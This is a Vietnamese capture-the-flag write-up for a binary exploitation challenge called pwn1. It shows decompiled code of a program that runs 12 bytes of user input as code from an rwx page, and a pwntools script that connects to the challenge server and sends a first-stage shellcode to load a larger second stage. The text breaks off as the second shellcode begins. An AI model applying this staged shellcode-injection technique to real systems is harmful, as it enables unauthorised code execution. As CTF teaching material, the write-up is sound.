 
## pwn/pwn1

{{< admonition note "Challenge Information" >}}
* 0 solve / 500 pts
* **Given files:** [pwn1](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EeNv7B6LlU1Cm8xv11c8j14B53DaHhiI_rNmTx9wNTGQrg?e=kV9ns4)
* **Description:** every things start with assembly\
**`nc 103.162.14.116 20001`**
{{< /admonition >}}

**Solution**

Sử dụng IDA64 decompile chương trình, ta thu được mã giả của hàm **`main`** như sau 

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *buf; // [rsp+0h] [rbp-10h]

  setup(argc, argv, envp);
  buf = mmap((void *)0x1337000, 0x1000uLL, 7, 33, -1, 0LL);
  puts("Let warm up a bit with shellcode , shall we?");
  read(0, buf, 0xCuLL);
  puts("OK let see how your shellcode work!!!!");
  ((void (*)(void))buf)();
  return 0;
}
```

Ta thấy, chương trình **`mmap`** 1000 byte, bắt đầu tại địa chỉ **`0x1337000`** với full quyền rwx và yêu cầu chúng ta viết shellcode. 

Vấn đề ở đây là chúng ta chỉ nhập được tối đa 12 byte. Vậy nên không thể viết trực tiếp shellcode lấy shell như thông thường được. Mình sẽ mở rộng kích thước số byte được nhập ra và gọi lại hàm **`read`**. 

```python
from pwn import *
import time 

exe = ELF("./pwn1") 
# libc = ELF("./libc.so.6")
# ld = ELF("./ld.so.6")

context.log_level = "debug"
context.arch = "amd64"
context.binary = exe 

# p = process(exe.path)
p = remote("103.162.14.116", 20001)

def sla(*args):
    return p.sendlineafter(args[0], args[1]) 

def sl(*args):
    return p.sendline(args[0]) 

shellcode1 = asm("""
    mov edx, 0xff
    add r13, 87 
    jmp r13
""")

p.sendafter("shall we?\n", shellcode1)

shellcode2 = asm("""
```